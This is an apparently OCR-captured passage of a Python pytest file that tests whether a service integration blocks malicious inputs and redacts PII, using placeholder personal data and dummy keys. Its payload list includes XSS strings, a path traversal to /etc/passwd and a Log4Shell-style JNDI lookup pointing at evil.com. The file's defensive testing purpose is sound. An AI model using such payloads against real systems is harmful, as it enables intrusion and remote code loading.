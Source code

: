 ```python
        {"content": "<script>alert('xss')</script>"},
        {"url": "javascript:alert('xss')"},
        {"metadata": "../../../../etc/passwd"},
        {"search": "${jndi:ldap://evil.com/a}"}
    ]
    
    integration_results = []
    for payload in malicious_payloads:
        # Test payload through complete integration workflow
        result = await security_integration_suite.test_payload_integration(payload)
        integration_results.append(result)
        
        # Assert: All malicious payloads blocked at service boundaries
        assert result.blocked is True
        assert result.threat_level == "HIGH"
        assert result.service_boundary_validation is True
    
    # Validate zero vulnerabilities across integration
    vulnerability_count = sum(1 for r in integration_results if not r.blocked)
    assert vulnerability_count == 0  # Zero vulnerabilities
    
    # Validate integration success rate with security
    success_rate = len([r for r in integration_results if r.security_validated]) / len(integration_results)
    assert success_rate >= 0.70  # 70% integration success with security

@pytest.mark.integration
@pytest.mark.security
@pytest.mark.data_sanitization
async def test_pii_integration_sanitization(
    pii_integration_pipeline: PIIIntegrationPipeline
) -> None:
    """Test PII sanitization across integrated services.
    
    Portfolio ULTRATHINK Achievement: Enterprise-grade data protection
    Integration Success Rate: 70% with PII protection
    """
    # Test PII data through integration workflow
    pii_test_data = {
        "content": "Contact John Doe at john.doe@example.com or call 555-123-4567",
        "metadata": {"ssn": "123-45-6789", "credit_card": "4111-1111-1111-1111"},
        "notes": "API Key: sk-1234567890abcdef, Password: secretpass123"
    }
    
    # Process through integrated PII sanitization pipeline
    result = await pii_integration_pipeline.process_with_sanitization(pii_test_data)
    
    # Assert: All PII properly sanitized across service integration
    assert "[REDACTED_EMAIL]" in result["content"]
    assert "[REDACTED_PHONE]" in result["content"]
    assert result["metadata"]["ssn"] == "[REDACTED_SSN]"
    assert result["metadata"]["credit_card"] == "[REDACTED_CREDIT_CARD]"
    assert "[REDACTED_API_KEY]" in result["notes"]
    assert "[REDACTED_PASSWORD]" in result["notes"]
```
